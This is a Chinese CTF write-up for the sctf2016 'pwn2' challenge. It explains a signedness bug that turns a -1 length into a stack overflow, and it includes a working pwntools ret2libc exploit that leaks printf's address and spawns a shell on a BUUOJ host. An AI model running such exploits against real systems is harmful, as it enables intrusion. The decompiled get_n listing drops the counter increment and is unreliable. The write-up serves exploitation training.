 ```yaml
---
layout: post
title:  pwn2
date:   2021-02-02 00:01:01 +0300
image:  2021-02-02-white.jpg
tags:   [ctf,PWN,sctf2016]
---
```


main

```assembly
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setvbuf(stdout, 0, 2, 0);
  return vuln();
}
```

vuln()

```assembly
int vuln()
{
  char nptr; // [esp+1Ch] [ebp-2Ch]
  int v2; // [esp+3Ch] [ebp-Ch]

  printf("How many bytes do you want me to read? ");
  get_n(&nptr, 4);
  v2 = atoi(&nptr);
  if ( v2 > 32 )
    return printf("No! That size (%d) is too large!\n", v2);
  printf("Ok, sounds good. Give me %u bytes of data!\n", v2);
  get_n(&nptr, v2);
  return printf("You said: %s\n", &nptr);
}
```

数据长度最多32，无法溢出。

get_n()

```assembly
int __cdecl get_n(int a1, unsigned int a2)
{
  int v2; // eax
  int result; // eax
  char v4; // [esp+Bh] [ebp-Dh]
  unsigned int v5; // [esp+Ch] [ebp-Ch]

  v5 = 0;
  while ( 1 )
  {
    v4 = getchar();
    if ( !v4 || v4 == 10 || v5 >= a2 )
      break;
    v2 = v5
    
    *(_BYTE *)(v2 + a1) = v4;
  }
  result = a1 + v5;
  *(_BYTE *)(a1 + v5) = 0;
  return result;
}
```

在vuln()函数中v2变量本来是int类型，但是传入get_n()中变为了unsigned int无符号整数类型，这意味着如果给get_n()第二个参数传入负数，它会变成模intMAX的值。因此可以利用这点来使得vuln()中可以溢出。

程序中存在printf()函数，可以通过其来泄露函数的got地址，但是printf()与write()和puts()不同，要给它传入一个带有"%s"的字符串作为参数，而此程序中正好可以找到。

```assembly
from pwn import *
from LibcSearcher import *

elf = ELF("./pwn2_sctf_2016")

io = remote("node3.buuoj.cn",27281)

io.recvuntil('How many bytes do you want me to read? ')
io.sendline("-1")


printf_plt = 0x08048370
printf_got = elf.got["printf"]

main = 0x80485b8
format_str = 0x080486F8
io.recvuntil('bytes of data!\n')
payload = "a" * (0x2c + 4) + p32(printf_plt) + p32(main) + p32(format_str) + p32(printf_got)
io.sendline(payload)

io.recvuntil('said: ')
io.recvuntil('said: ')

printf_addr = u32(io.recv(4))
print(printf_addr)

'''
io.recvuntil('How many bytes do you want me to read? ')
io.sendline("-1")

atoi_got = elf.got["atoi"]
payload = "a" * (0x2c + 4) + p32(printf_plt) + p32(main) + p32(format_str) + p32(atoi_got)
io.sendline(payload)

io.recvuntil('said: ')
io.recvuntil('said: ')

atoi_addr = u32(io.recv(4))
print(atoi_addr)
'''

io.recvuntil('How many bytes do you want me to read? ')
io.sendline("-1")

libc = LibcSearcher("printf", printf_addr)
base = printf_addr - libc.dump("printf")
system = base + libc.dump("system")
binsh = base + libc.dump("str_bin_sh")

payload = "a" * (0x2c + 4) + p32(system) + p32(main) + p32(binsh)
io.sendline(payload)

io.interactive()

```

满足条件的libc太多，试到第10个才通过。

![]({{site.baseurl}}/img/2021-02-02-flag.jpg)